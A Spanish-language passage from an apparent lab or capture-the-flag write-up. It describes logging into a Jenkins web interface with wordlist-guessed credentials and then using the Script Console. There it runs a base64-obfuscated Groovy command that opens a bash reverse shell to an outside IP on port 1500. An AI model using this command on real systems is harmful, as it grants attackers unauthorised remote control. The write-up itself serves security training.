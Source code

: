![](/assets/images/Internal/image028.png)

Después de probar muchos wordlists logre encontrar unas credenciales validas para acceder a la interfaz web de Jenkins.

Ahora iremos a la sección llamada Scrip Console donde puedes ejecutar comandos Groovy. Para ello primero damos clic a Build Executor Status--> master--> Script Console. Luego, ejecutaremos el comando `'bash -c {echo, YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjEyMy4xOTQvMTUwMCAwPiYxJwo=}|{base64,-d}|{bash,- i}'.execute()` para que nos genere una reverse Shell, pero antes debemos habilitar el puerto 1500 en modo listening en nuestro sistema.

![](/assets/images/Internal/image029.png)

![](/assets/images/Internal/image030.png)
